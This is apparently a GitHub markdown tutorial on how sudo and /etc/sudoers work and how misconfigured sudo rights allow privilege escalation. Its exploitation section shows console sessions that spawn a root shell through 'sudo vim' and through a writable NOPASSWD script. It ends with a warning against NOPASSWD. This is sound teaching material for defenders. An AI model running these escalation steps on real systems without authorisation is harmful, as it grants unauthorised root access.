

### Exploiting sudo
-------------------

#### What is sudo?
------------------
> sudo, originally stood for **'superuser do'**, is a program that allows low-privileged users to run programs and binaries with the security privileges of a high privileged user, by default, the superuser who has the user identifier (UID) of zero regardless of the name of that account (usually 'root' in GNU/Linux distributions) or another user who received some sudo rights.
Users must supply their own passwords for authentification rather than the password of the high privileged account, sudo retains the user's invocation rights during five minutes allowing the user to execute several successive commands without having to provide a password again.
> 
> As a security feature, sudo may be configured to log each command. When a user attempts to invoke sudo without being listed in the configuration file, an alert is presented to the user indicating that the attempt has been recorded, the root user is alerted too and the entry is recorded.

#### Configuration
------------------

The `/etc/sudoers` file controls who can run what commands and can configure if a particular command needs a password or not. The file is composed of aliases and users specification. 



You can access and edit it only with root privileges with your favorite editor but it is not recommended because improprer syntax can leave you with a broken system, it is far better to use **visudo**.
`sudo visudo`
The **visudo** command opens the `/etc/sudoers` file with the **vi** text editor. Ubuntu has configured **visudo** to use the **nano** text editor instead.

#### Exploitation examples
--------------------------

One of the first commands if not the first that an intruder will use is `sudo -l`. It will show which commands the user could run with **sudo** privilege.

There is a well-known list of binaries that can be used to bypass local security restrictions in misconfigured systems:
<https://gtfobins.github.io/#+sudo>

Let's see some.

```console
hacked@user:~$ sudo -l
[sudo] password for hacked: 
Matching Defaults entries for hacked on user:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hacked may run the following commands on user:
    (root) NOPASSWD: /usr/bin/vim
hacked@user:~$ sudo vim -c '!sh'
# whoami
root
#

```
Vim has many awesome functionalities including the ability to open a shell! Just run vim with sudo and in the command mode, just run `:!bash` and a root shell will open. 


It could just be a file!

```console
User hacked may run the following commands on user:
	(root) NOPASSWD: /home/hacked/test.sh
hacked@user:~$ echo "/bin/bash -i" >> test.sh
hacked@user:~$ sudo ./test.sh
root@user:~# id
uid=0(root) gid=0(root) groups=0(root)
root@user:~#

```

:triangular_flag_on_post: **The 'NOPASSWD' specifies that no password will be required, it just should not allowed to simple users in any case as well as commands with root privilege.** 
